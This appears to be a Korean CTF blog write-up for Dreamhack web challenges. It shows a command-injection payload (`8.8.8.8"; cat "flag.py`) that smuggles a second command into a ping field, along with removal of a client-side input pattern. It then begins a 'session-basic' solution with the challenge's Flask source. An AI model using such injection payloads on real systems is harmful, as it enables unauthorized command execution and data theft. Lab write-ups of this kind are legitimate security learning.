 command injection... 코드 중간에 `f'ping -c 3"{host}"`를 읽고 바로 공격했다.

```
8.8.8.8"; cat "flag.py
```

그런데 아래 요소가 방해를 하여 지운 뒤 전송했다.

```html
<input type="text" class="form-control" id="Host" placeholder="8.8.8.8" name="host" pattern="[A-Za-z0-9.]{5,20}" required="">
```

![image-20220621162705702](../img/image-20220621162705702.png)

또 달콤한 힐링 문제였다.


<br><br><br>

-----

# > dreamhack.kr: session-basic

## writeup

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

users = {
    'guest': 'guest',
    'user': 'user1234',
    'admin': FLAG
}


# this is our session storage 
session_storage = {
}


@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        # get username from session_storage 
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
```